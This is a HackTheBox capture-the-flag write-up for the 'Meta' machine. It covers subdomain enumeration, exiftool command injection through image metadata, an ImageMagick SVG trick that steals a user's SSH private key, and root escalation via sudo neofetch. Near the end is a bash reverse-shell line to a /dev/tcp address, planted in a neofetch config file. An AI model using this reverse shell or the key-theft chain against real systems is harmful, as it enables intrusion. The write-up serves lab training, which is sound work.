# Meta HackTheBox Writeup
### Level: `Medium` | OS: `Linux`



## Scanning
We run **nmap** on all ports with scripts and software versions. We see that the web service redirects to the domain *artcorp.htb*, we insert it in our */etc/hosts* file.




## Enumeration
We tested access at both sites, but they lead to the same destination.



##### Viewing website:


We list three possible relevant users in the company:


We also see that they are promoting a new product called "*MetaView*" (the machine is called Meta, so it could be a clue).



We launch the **wfuzz** tool and enumerate a subdomain "*dev01.artcorp.htb*":



We access the website, find a link to the tool they are developing.




## Exploitation
There appears to be a file upload field and it displays metadata. 



If we look at the result, it is very similar to the output of the **exiftool**:



#### Exploit: [https://github.com/OneSecCyber/JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE)

We perform the same process of the exploit and insert a system command (*"ls -lna"*) in the image metadata:



We upload the image and see that the command is executed on the machine:



Since we had to put all the code in the metadata, I found it easier to encode the payload in **base64**.



We insert the **base64** payload, add decoding and execution on the victim machine:



We listen in with a **netcat** and gain access to the machine:



We tried to read the user flag, but we do not have permissions.



We run **pspy** and see that a script called "*convert_images.sh*" is executed:



#### Visualizing content:
The script takes the inserted content of the path "*/var/www/dev01.artcorp.htb/convert_images/*" and executes it with mogrify accepting any file:



Searching for the "**mogrify**" binary, I found a lot of information about "**ImageMagick**", which allows you to execute commands through an XML file.

So I checked the version and did some research:



So, I used the following file to copy the SSH private key of the user "*thomas*" and inserted it in a m3.svg file in the path "*/var/www/dev01.artcorp.htb/convert_images/*" and we only had to wait for the script to run it in a few minutes.



We wait a few minutes and see that we have obtained the "*id_rsa*" file of the user *Thomas*:



## Privilege Escalation
We connect via **SSH** with the private key and read the user flag.

We also see that we can run as the root user the "**neofetch**" binary.



We searched [gtfobins/neofetch/](https://gtfobins.github.io/gtfobins/neofetch/) and found ways to exploit this binary.



We can see that there is a configuration file for this binary in our folder.



We insert our reverse shell into our neofetch configuration file:


We put a **netcat** listening on port 443 and execute the two commands through the terminal. We will gain root access and read the flag.

### Explotation code:
```bash
# Reverse shell /home/thomas/.config/neofetch/config.php
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1"

# Terminal execution
export XDG_CONFIG_HOME="$HOME/.config"
sudo -u root /usr/bin/neofetch \"\" 
```



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)